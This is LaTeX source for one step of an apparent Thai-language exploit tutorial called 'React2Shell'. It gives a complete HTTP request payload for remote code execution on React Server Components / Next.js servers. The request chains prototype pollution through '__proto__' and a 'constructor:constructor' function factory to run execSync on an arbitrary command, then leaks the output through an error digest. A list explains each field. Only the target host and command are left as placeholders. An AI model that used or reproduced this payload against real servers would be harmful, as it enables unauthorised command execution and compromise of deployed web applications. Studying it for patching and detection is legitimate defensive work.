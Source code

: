 \documentclass[12pt,oneside]{report}
\begin{document}
\section{ขั้นที่ 5 — Payload สมบูรณ์และโครงสร้าง HTTP Request}

ได้เวลาประกอบ Gadgets ทั้งหมดเข้าด้วยกันเป็น Payload สมบูรณ์ โครงสร้าง HTTP Request มีดังนี้:

\begin{lstlisting}[language=bash, caption=โครงสร้าง HTTP Request สมบูรณ์ของ React2Shell Exploit]
POST / HTTP/1.1
Host: TARGET:3000
Next-Action: x
Content-Type: multipart/form-data; boundary=----FlightBoundary

------FlightBoundary
Content-Disposition: form-data; name="0"

{
  "then":     "$1:__proto__:then",
  "status":   "resolved_model",
  "reason":   -1,
  "value":    "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process')
      .execSync('COMMAND').toString('base64');
      throw Object.assign(new Error('x'),{digest:res});",
    "_chunks":   "$Q2",
    "_formData": {"get": "$1:constructor:constructor"}
  }
}
------FlightBoundary
Content-Disposition: form-data; name="1"

"$@0"
------FlightBoundary--
\end{lstlisting}

\subsection{อธิบาย Field สำคัญ}

\begin{enumerate}
    \item \textbf{\texttt{then}: \texttt{"\$1:\_\_proto\_\_:then"}} — ทริกเกอร์ Prototype Pollution โดยใช้ Property Path Traversal ผ่าน \texttt{\_\_proto\_\_} เพื่อ inject \texttt{.then} เข้า Object prototype
    \item \textbf{\texttt{status}: \texttt{"resolved\_model"}} — บอก Deserializer ว่า Promise นี้ ``resolved'' แล้ว เพื่อให้ดำเนินการต่อ ไม่หยุดรอ
    \item \textbf{\texttt{value}: \texttt{"\{...\}"}} — ค่าของ Promise (inner payload) ที่จะถูก Deserialize อีกชั้น
    \item \textbf{\texttt{\_prefix}} — JavaScript ที่จะถูกรันเมื่อ Response Object ถูก construct
    \item \textbf{\texttt{\_formData.get}: \texttt{"\$1:constructor:constructor"}} — สร้าง Function factory เพื่อ eval \texttt{\_prefix}
    \item \textbf{Field \texttt{"1"}: \texttt{"\$@0"}} — Async reference กลับไปยัง Chunk 0 เพื่อสร้าง circular dependency ที่บังคับให้ทั้งหมด resolve พร้อมกัน
\end{enumerate}
\end{document}
